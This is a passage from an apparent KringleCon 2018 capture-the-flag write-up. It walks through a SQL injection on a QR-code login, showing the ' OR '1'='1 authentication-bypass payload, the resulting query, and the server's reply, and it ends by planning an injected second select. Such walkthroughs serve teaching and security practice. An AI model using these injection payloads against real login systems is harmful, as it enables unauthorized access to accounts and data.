 **Important**: we can inject SQL only here `AND uid = '{}'`, replacing the curly brakets, and we need to correctly match the single quotes.


From the owasp hint, the classic authentication bypass is `OR 1=1`, something like:
```
Injected:         'OR '1'='1
Resulting query:  SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = ''OR '1'='1' LIMIT 1
```

The `OR 1=1` technique inject an always true WHERE clause, in OR with the other clauses: 
```
SELECT
  first_name,       
  last_name,
  enabled           <- mind here!
FROM
  employees
WHERE
  authorized = 1    <- we need an auhtorized guy
  AND uid = ''      <- no one
  OR '1' = '1'      <- always true
LIMIT
  1                 <- returns only one row
```

This query will return a single row (because of `LIMIT`) with an authorized user, the first found. We don't know if the returned user is also enabled, but it's worth a shot:

![one_eq_one_qr_code.png](https://github.com/Simone-Zabberoni/kringlecon-2018-report/blob/master/6/one_eq_one_qr_code.png)

```
{"data":"Authorized User Account Has Been Disabled!","request":false}
```

Bad, but the returned account is not enabled!

We need to inject not a where clause but a **new** select, to pick up an enabled account. Also, because of the `LIMIT 1` we need to be sure that only out injected select returns data.
